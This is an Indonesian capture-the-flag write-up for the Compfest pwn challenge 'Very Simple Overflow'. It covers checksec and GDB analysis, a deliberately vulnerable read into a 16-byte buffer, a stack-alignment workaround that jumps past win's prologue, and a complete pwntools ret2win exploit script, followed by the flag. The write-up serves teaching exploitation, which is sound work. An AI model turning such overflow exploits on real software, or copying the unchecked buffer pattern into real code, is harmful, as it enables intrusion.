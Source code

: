 # **Write-up CTF Compfest: Very Simple Overflow**

## **Informasi Tantangan**

  * **Nama:** Very Simple Overflow
  * **Kategori:** Pwn / Binary Exploitation
  * **Deskripsi:** Diberikan sebuah file binary dan alamat server. Tujuannya adalah mengeksploitasi kerentanan untuk mendapatkan flag.

## **Ringkasan (TL;DR)**

Tantangan ini memiliki kerentanan *stack buffer overflow* yang sangat jelas. Tujuannya adalah melakukan `ret2win` dengan melompat ke fungsi `win` yang tersembunyi. Namun, tantangan sebenarnya terletak pada masalah **stack alignment** pada arsitektur 64-bit yang menyebabkan *crash* saat dipanggil secara naif. Karena keterbatasan ukuran input, solusi standar (menggunakan `ret gadget`) tidak dapat diterapkan. Solusi akhirnya adalah dengan melompat satu byte setelah awal fungsi `win` untuk melewati instruksi `push rbp`, sehingga menjaga stack tetap *aligned* dan memungkinkan eksekusi fungsi `win` berhasil.

-----

### **1. Analisis Awal & Reconnaissance**

Langkah pertama adalah melakukan analisis dasar pada file `chall` yang diberikan.

  * `file chall`: Menunjukkan bahwa ini adalah file ELF 64-bit, dynamically linked, dan tidak di-strip (masih memiliki simbol).
  * `checksec chall`:
      * **No Canary found**: Proteksi *stack canary* non-aktif. Ini membuka pintu untuk eksploitasi stack overflow.
      * **No PIE (0x400000)**: *Position-Independent Executable* non-aktif. Alamat-alamat fungsi dan data di dalam binary akan tetap sama setiap kali dieksekusi, menyederhanakan eksploitasi.
  * `strings chall`: Menemukan beberapa string menarik, termasuk "You know the drill" dan yang paling penting, sebuah fungsi bernama `win`. Ini adalah petunjuk besar adanya fungsi kemenangan yang bisa kita panggil.

Selanjutnya, binary dianalisis menggunakan Ghidra untuk dekompilasi.

```c
// Fungsi rentan
void vuln(void) {
    char buffer[16];
    printf("You know the drill\n>> ");
    fflush(stdout);
    // Kerentanan: Membaca 32 byte ke buffer 16 byte
    read(0, buffer, 32); 
}

// Fungsi kemenangan
void win(void) {
    // Fungsi ini membuka flag.txt dan mencetaknya
    char flag_buffer[100];
    FILE *file = fopen("flag.txt", "r");
    if (file) {
        fread(flag_buffer, 1, sizeof(flag_buffer), file);
        printf("%s\n", flag_buffer);
        fclose(file);
    }
}
```

Dari sini, rencana eksploitasi tampak jelas: temukan offset untuk menimpa *return address* dan arahkan ke fungsi `win`.

### **2. Perjalanan Menemukan Offset yang Benar**

Ini adalah bagian paling rumit dari tantangan ini, yang penuh dengan informasi yang menyesatkan.

  * **Analisis Statis (Gagal)**: Ghidra menunjukkan dua informasi yang saling bertentangan. Ringkasan decompiler menyebutkan buffer berada di `Stack[-0x18]`, yang mengarah pada perhitungan `OFFSET = 32`. Namun, instruksi Assembly yang sebenarnya adalah `LEA RAX, [RBP - 0x10]`, yang mengarah pada perhitungan `OFFSET = 24`.
  * **Analisis Dinamis (Berhasil)**: Karena analisis statis tidak meyakinkan, satu-satunya cara adalah dengan analisis dinamis menggunakan GDB.
    1.  Sebuah pola unik (`cyclic(200)`) dikirim ke program yang berjalan di dalam GDB.
    2.  Program crash saat menjalankan instruksi `ret`. `RIP` tidak tertimpa, yang menandakan crash terjadi tepat di instruksi `ret` itu sendiri.
    3.  Dengan memeriksa puncak stack (`x/gx $rsp`), kita menemukan nilai yang akan dieksekusi, yaitu `0x6161616861616167`.
    4.  `cyclic_find(0x6161616861616167)` mengkonfirmasi secara definitif bahwa **offset yang benar adalah 24**.

### **3. Masalah Stack Alignment & Solusi Cerdas**

Dengan `OFFSET = 24`, payload `ret2win` sederhana dibuat: `padding(24) + win_addr(8)`. Ukuran totalnya 32 byte, pas dengan `read(..., 32)`.

Namun, eksploit ini berhasil di lokal tetapi selalu gagal di server remote. Server menutup koneksi tanpa mengirim data (0 byte). Ini adalah gejala klasik dari **masalah stack alignment**.

  * **Penyebab**: Pada arsitektur x86-64, stack harus 16-byte aligned sebelum memanggil fungsi libc. `ret` dari `vuln` membuat stack menjadi aligned (`16n`), tetapi instruksi pertama di fungsi `win` (`push rbp`) kembali membuat stack menjadi tidak aligned (`16n + 8`), menyebabkan `fopen` crash.
  * **Dilema**: Solusi standar untuk ini adalah menyelipkan `ret gadget` (`padding + ret + win`), tetapi ini akan membuat payload menjadi 40 byte, yang melebihi batas `read()` 32 byte.
  * **Solusi Akhir**: Triknya adalah **melompat melewati prolog fungsi `win`**. Daripada melompat ke awal `win` di `0x401186` (yang berisi `push rbp`), kita melompat ke instruksi setelahnya di `0x401187`. Dengan cara ini, `push rbp` tidak pernah dieksekusi, stack tetap *aligned*, dan `fopen` bisa berjalan tanpa crash.

### **4. Skrip Exploit Final**

[cite\_start]Berdasarkan semua analisis dan debugging, berikut adalah skrip akhir yang berhasil mendapatkan flag. [cite: 1]

```python
#!/usr/bin/env python3
from pwn import *

# Fungsi helper untuk beralih antara tes lokal dan remote
def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('ctf.compfest.id', 7004)
    else:
        return process(exe.path)

# --- KONFIGURASI ---
context.binary = exe = ELF('./chall', checksec=False)
context.log_level = 'info'

# --- PAYLOAD ---
OFFSET = 24          # Dikonfirmasi via GDB
WIN_ADDR = 0x401186  # Alamat awal fungsi win

# Trik: Lompat ke alamat setelah instruksi 'push rbp' (1 byte)
EXPLOIT_ADDR = WIN_ADDR + 1

info(f"Offset terkonfirmasi: {OFFSET}")
info(f"Alamat eksekusi (melompati prolog): {hex(EXPLOIT_ADDR)}")

payload = flat([
    b'A' * OFFSET,
    p64(EXPLOIT_ADDR)
])
assert len(payload) == 32

# --- EKSEKUSI ---
p = start()

# Interaksi dengan server
p.recvuntil(b'>> ')
p.send(payload)
log.success("Payload terkirim!")

# Menerima flag
flag_output = p.recvall(timeout=3)
if flag_output:
    log.success(f"Flag ditemukan: {flag_output.decode(errors='ignore').strip()}")
else:
    log.warning("Tidak ada output yang diterima.")

p.close()
```

### **5. Flag**

[cite\_start]Setelah menjalankan skrip final, flag berhasil didapatkan. [cite: 1]
[cite\_start]`COMPFEST17{the_risk_i_took_was_calculated_but_man_am_i_bad_at_math_ed0ea99d31}` [cite: 1]
